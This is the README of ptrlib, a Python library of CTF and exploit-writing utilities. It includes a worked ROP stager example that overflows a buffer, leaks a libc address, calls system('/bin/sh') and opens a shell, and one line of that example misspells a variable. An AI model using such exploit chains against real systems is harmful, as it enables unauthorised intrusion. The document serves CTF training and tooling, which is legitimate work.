 ptrlib
====

![Python Test (Windows)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Windows%29/badge.svg)
![Python Test (Ubuntu)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Ubuntu%29/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Why not pwntools?
Ptrlib is designed to be as library-independent as possible.
Also, ptrlib has some pros such as supporting Windows process.

## Requirements
Supports: Python 3.8 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- When using `SSH` function:
  - ssh
  - expect
- When using `nasm` function:
  - nasm

## Usage
Basic examples are available at [/examples](https://github.com/ptr-yudai/ptrlib/tree/master/examples/).

Testcases under [/tests](https://github.com/ptr-yudai/ptrlib/tree/master/tests/) may also help you understand ptrlib.

## Quick Document
There are many functions in ptrlib.
In this section we try using it for a pwnable task.

You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = Socket("example.com", 443, ssl=True, sni="neko")
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```

If you have the target binary or libc, it's recommended to load them first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
This doesn't fully analyse the binary so that it runs fast.
Also, ELF class supports cache to reduce calculation.

You can use some useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is an example to craft ROP stager.
```python
"""
Connect to host
"""
# Host name supports CTF-style
sock = Socket("nc localhost 1234")
# You can show hexdump for received/sent data for debug
#sock.debug = True

"""
Write ROP chain
"""
addr_stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  # puts(puts@got)
  next(elf.gadget("pop rdi; ret;")),
  elf.got("puts"),
  elf.plt("puts"),
  # gets(stage2)
  next(elf.gadget("pop rdi; ret;")),
  addr_stage2,
  elf.plt("gets"),
  # stack pivot
  next(elf.gadget("pop rbp; ret;")),
  addr_stage2,
  next(elf.gadget("leave\n ret")) # GCC-style
], map=p64)
sock.sendlineafter("Data: ", payload)

"""
Leak libc address
"""
# You don't need to fill 8 bytes for u64
leak = u64(sock.recvline())
# This will show warning if base address looks incorrect
libc.base = leak - libc.symbol("puts")

payload  = b'A' * 8
paylaod += p64(next(elf.gadget("ret")))
# Automatically rebase after <ELF>.base is set
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))

# Shows warning if payload contains a character `gets` cannot accept
is_gets_safe(payload) # is_[cin/fgets/gets/getline/scanf/stream]_safe

sock.sendline(payload)

sock.sh() # or sock.interactive()
```

Interaction with curses is supported since 2.1.0.
```
sock.recvscreen()
if sock.recvscreen(returns=list)[1][1] == '#':
  sock.sendctrl("up")
else:
  sock.sendctrl("esc")
```

## Install
Run `pip install --upgrade ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [jptomoya](https://github.com/jptomoya)
  - Added CI for Windows
  - Added SSL support
  - Refactored test cases
- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
